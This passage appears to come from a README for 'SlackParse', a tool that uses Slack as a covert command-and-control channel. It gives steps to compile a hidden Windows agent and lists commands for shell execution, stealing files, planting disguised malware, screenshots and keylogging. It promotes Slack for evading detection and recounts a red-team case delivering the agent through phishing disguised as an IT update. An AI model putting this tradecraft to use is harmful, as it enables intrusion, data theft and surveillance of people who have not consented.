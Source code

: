 ```bash
python3 slackparse.py
```

### Agent Setup

SlackParse's agent is a Python script that can be compiled for target platforms:

```bash
# For Windows targets, using PyInstaller
pip3 install pyinstaller
pyinstaller --onefile --noconsole agent.py

# The compiled agent will be in the dist/ directory
```

### Command Execution

Once an agent connects, you can execute commands through the Slack channel:

1. In your designated Slack channel, type commands prefixed with `!`
2. Examples:
   - `!shell whoami` - Run a shell command
   - `!download C:\Users\admin\Documents\secret.docx` - Download a file
   - `!upload /tmp/malware.exe C:\Windows\Temp\update.exe` - Upload a file
   - `!screenshot` - Capture the target's screen
   - `!keylog start` - Start a keylogger

### Benefits of Chat-based C2

1. **Allowed Traffic**: Most organizations permit Slack traffic
2. **Encryption**: Communications are encrypted by default
3. **Anonymity**: Connection to legitimate Slack servers, not directly to C2
4. **Persistence**: Works from anywhere target has internet

### Example: Leveraging Corporate Communication Tools

During a red team assessment for a technology company, we used SlackParse to demonstrate how attackers could leverage approved communication channels:

1. **Preparation**:
   ```bash
   # Created a Slack workspace mimicking legitimate company workspaces
   # Generated agent disguised as a corporate monitoring tool
   # Compiled agent for Windows target environment
   ```

2. **Initial Access**:
   - Delivered agent through a targeted phishing email
   - Disguised as a required security update from IT
   - Agent executed and connected to Slack channel

3. **Operational Security**:
   ```
   # Used private Slack channel for all C2 communications
   # Limited commands to off-hours to avoid detection
   # Used file transfer capabilities to avoid suspicious network connections
   ```
